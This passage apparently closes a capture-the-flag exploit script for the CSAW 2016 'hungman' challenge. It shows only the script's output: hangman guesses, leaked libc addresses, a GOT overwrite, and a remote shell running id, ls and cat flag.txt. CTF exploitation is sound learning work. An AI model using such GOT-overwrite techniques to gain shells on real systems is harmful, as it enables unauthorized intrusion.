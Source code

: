 ```
_qoapcq_qc__c_c___kd_lfbjjjggjfji__rr___gqnhr_hfmddie_annpiodce_qdkcjlniofmggmf_e_h_qk__pdc__o_ngjapdakelnijbpi_pd_i_iogr_rmlnm_rfn_a_qqof_ccmjbboa_hkb_k__icl_nl_l___p_qi_boggbmp_fqq_k___io_grlabb_jq_hb_fijcfrb_fi_db___hfkn_n_lkmo_k__rg_h__ff_hoqjj__in_rib_lc__i_hb__jh_i____rhg_br_qi_lgliaboimm
_qoapcq_qc__c_c___kd_lfbjjjggjfji__rr___gqnhr_hfmddie_annpiodce_qdkcjlniofmggmf_e_h_qk__pdc__o_ngjapdakelnijbpi_pdsi_iogr_rmlnm_rfn_asqqof_ccmjbboa_hkb_ks_icl_nl_l___p_qisboggbmpsfqq_k___io_grlabb_jq_hb_fijcfrb_fi_db_s_hfkn_n_lkmosk__rg_h__ffshoqjj_sin_rib_lc__i_hb__jh_i_s__rhg_brsqi_lgliaboimm
_qoapcq_qc__c_c___kd_lfbjjjggjfji__rrt__gqnhr_hfmddie_annpiodce_qdkcjlniofmggmf_eth_qkt_pdc__o_ngjapdakelnijbpi_pdsi_iogr_rmlnm_rfn_asqqof_ccmjbboa_hkb_ks_icl_nl_l___p_qisboggbmpsfqq_k___io_grlabb_jq_hb_fijcfrb_fi_db_s_hfkntn_lkmosk__rg_h__ffshoqjj_sin_rib_lc__i_hb__jh_i_s__rhg_brsqitlgliaboimm
_qoapcq_qcu_c_c___kd_lfbjjjggjfji__rrt__gqnhruhfmddie_annpiodceuqdkcjlniofmggmf_eth_qktupdc__oungjapdakelnijbpiupdsi_iogr_rmlnm_rfn_asqqof_ccmjbboa_hkb_ksuicl_nl_l___puqisboggbmpsfqq_k_u_io_grlabb_jq_hb_fijcfrb_fi_db_s_hfkntn_lkmosku_rg_h__ffshoqjjusin_rib_lc__iuhb__jhuiusuurhgubrsqitlgliaboimm
_qoapcqvqcu_cvcv__kd_lfbjjjggjfjivvrrt__gqnhruhfmddie_annpiodceuqdkcjlniofmggmfveth_qktupdc__oungjapdakelnijbpiupdsi_iogr_rmlnm_rfn_asqqof_ccmjbboa_hkb_ksuicl_nl_l___puqisboggbmpsfqqvkvu_io_grlabb_jq_hbvfijcfrbvfi_db_s_hfkntnvlkmoskuvrg_h_vffshoqjjusin_rib_lc__iuhb__jhuiusuurhgubrsqitlgliaboimm
_qoapcqvqcu_cvcv__kd_lfbjjjggjfjivvrrt__gqnhruhfmddiewannpiodceuqdkcjlniofmggmfvethwqktupdc__oungjapdakelnijbpiupdsi_iogrwrmlnm_rfnwasqqof_ccmjbboa_hkb_ksuicl_nl_lw__puqisboggbmpsfqqvkvu_io_grlabbwjq_hbvfijcfrbvfi_db_s_hfkntnvlkmoskuvrgwhwvffshoqjjusin_rib_lc__iuhb__jhuiusuurhgubrsqitlgliaboimm
_qoapcqvqcu_cvcvx_kd_lfbjjjggjfjivvrrtxxgqnhruhfmddiewannpiodceuqdkcjlniofmggmfvethwqktupdcx_oungjapdakelnijbpiupdsi_iogrwrmlnm_rfnwasqqof_ccmjbboa_hkbxksuiclxnl_lwx_puqisboggbmpsfqqvkvu_ioxgrlabbwjq_hbvfijcfrbvfi_db_sxhfkntnvlkmoskuvrgwhwvffshoqjjusinxrib_lc_xiuhb_xjhuiusuurhgubrsqitlgliaboimm
yqoapcqvqcu_cvcvxykdylfbjjjggjfjivvrrtxxgqnhruhfmddiewannpiodceuqdkcjlniofmggmfvethwqktupdcx_oungjapdakelnijbpiupdsi_iogrwrmlnmyrfnwasqqofyccmjbboa_hkbxksuiclxnlylwxypuqisboggbmpsfqqvkvuyioxgrlabbwjqyhbvfijcfrbvfi_db_sxhfkntnvlkmoskuvrgwhwvffshoqjjusinxribylc_xiuhb_xjhuiusuurhgubrsqitlgliaboimm
High score! change name?

[+] free() at 0x7f9776b85a70
[+] system() at 0x7f9776b47380
[+] __libc_start_main() at 0x7f9776b22740

[+] Overwriting GOT...
[+] Opening Shell...
    id
        uid=1000(hungman) gid=1000(hungman) groups=1000(hungman)
    ls -la
        total 36
        drwxr-x---  2 root hungman  4096 Sep 16 21:31 .
        drwxr-xr-x 10 root root     4096 Sep 16 21:31 ..
        -rw-r--r--  1 root hungman   220 Sep 16 21:31 .bash_logout
        -rw-r--r--  1 root hungman  3771 Sep 16 21:31 .bashrc
        -rw-r--r--  1 root hungman   655 Sep 16 21:31 .profile
        -rw-rw-r--  1 root root       41 Sep 16 21:13 flag.txt
        -rwxrwxr-x  1 root root    10464 Sep 16 21:13 hungman
    cat flag.txt
        flag{this_looks_like_its_a_well_hungman}
    exit
*** Connection closed by remote host ***
root@nogirl:~/ctf/csaw_16# 
'''

```

___
